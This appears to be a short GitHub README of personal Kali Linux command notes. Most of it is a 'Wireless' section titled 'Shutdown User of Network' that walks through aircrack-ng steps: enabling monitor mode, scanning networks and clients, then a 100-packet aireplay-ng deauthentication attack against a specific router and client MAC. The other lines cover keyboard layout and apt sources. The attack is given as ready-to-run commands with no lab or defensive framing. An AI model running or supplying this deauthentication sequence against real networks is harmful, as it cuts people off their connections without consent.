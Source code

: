 # kali-commands

---

**Others Commands:** 

setxkbmap -model abnt2 -layout br _This command set the layout keyboard for brazilian._
   
---

**Wireless**

***Shutdown User of Network***

   -``ifconfig`` - _for see name of the internet, like Ether or Wlan_   
   
   -`root@localhost:~# airmon-ng start wlan0 ` _This example init airmon for monitoring_
   
   -`root@localhost:~# airodump-ng wlan0mon` _this init the screen of networks_  
   
   `-root@localhost:~# airodump-ng --bssid 58:D5:6E:6C:2F:8C --channel 10 wlan0mon` _Here initialize process of see all users in network_
   
   -`root@localhost:~# aireplay-ng -0 100 -a 58:D5:6E:6C:2F:8C -c 48:49:C7:FD:F3:1E wlan0mon` _this init the attach._
   
   -`root@localhost:~# airmon-ng stop wlan0mon` _This stop monitoring mod_

refs: --bssid or -a is Mac Adress of Router and -c is Mac of device connected.

---

**Install packages**

(https://docs.kali.org/general-use/kali-linux-sources-list-repositories)

Two links for insert in /etc/apt/sources.list
ex: nano /etc/apt/sources.list
